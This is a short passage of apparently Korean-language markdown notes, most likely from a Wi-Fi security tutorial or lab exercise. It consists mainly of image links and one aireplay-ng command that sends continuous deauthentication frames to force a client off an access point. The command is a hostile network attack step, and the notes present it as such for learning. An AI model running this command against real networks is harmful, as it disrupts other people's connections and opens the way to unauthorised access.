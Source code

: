     ![unnamed.jpg](img/unnamed.jpg)
    
- `aireplay-ng -0 0 -a <MAC address> -c <Client’s MAC address> wlan0` 명령어 실행 후 접속을 강제로 끊은 후
    
    ![unnamed-2.jpg](img/unnamed-2.jpg)
    